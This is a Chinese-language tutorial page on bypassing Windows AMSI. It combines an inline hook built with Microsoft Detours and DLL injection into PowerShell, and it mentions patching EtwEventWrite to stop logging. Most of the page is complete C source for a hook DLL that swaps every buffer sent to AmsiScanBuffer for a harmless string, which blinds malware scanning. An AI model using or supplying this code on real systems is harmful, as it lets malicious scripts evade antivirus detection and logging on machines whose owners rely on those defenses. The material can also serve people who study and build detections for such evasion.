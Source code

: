 # 基于API Hook和DLL注入的AMSI绕过

## 简介

前面我们有详细的介绍过AMSI的原理和基于内存补丁的绕过方法，这次我们介绍一种略微复杂的方法，同时这种方法也可以应用于各种场景，前面我们有介绍过通过微软开源库[Detours](../persistence/detous-inline-hook.md)的inLineHook和[进程注入](../code-and-dll-process-injection/createremotethread.md)的dll注入，这次我们把这两种技术做一个组合，来实现amsi的绕过，同样的思路也可以对 EtwEventWrite进行修补，使其丧失记录日志能力。

## 流程

1. 编写一个hook AmsiScanBuffer的dll
2. 使用[dll注入](../code-and-dll-process-injection/createremotethread.md#42-dll-zhu-ru)进powershell进程
3. 完成绕过

## 代码

dll注入的代码延用[CreateRemoteThrea](../code-and-dll-process-injection/createremotethread.md)的代码

hook.c

```text
#include <Windows.h>
#include <stdio.h>
#include <amsi.h>
#include "include/detours.h"
#pragma comment(lib, "amsi.lib")
#pragma comment(lib,"lib.X64/detours.lib")

#define SafeString "SafeString"

static HRESULT(WINAPI* _AmsiScanBuffer)(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
    ) = AmsiScanBuffer;

HRESULT WINAPI AmsiScanBuffer_(
    HAMSICONTEXT amsiContext,
    PVOID        buffer,
    ULONG        length,
    LPCWSTR      contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result
) 
{
    return _AmsiScanBuffer(amsiContext, (BYTE*)SafeString, length, contentName, amsiSession, result);
}


BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourAttach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        printf("hook ok\n");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourDetach(&(PVOID&)_AmsiScanBuffer, AmsiScanBuffer_);
        DetourTransactionCommit();
        break;
    }
    return TRUE;

}
```

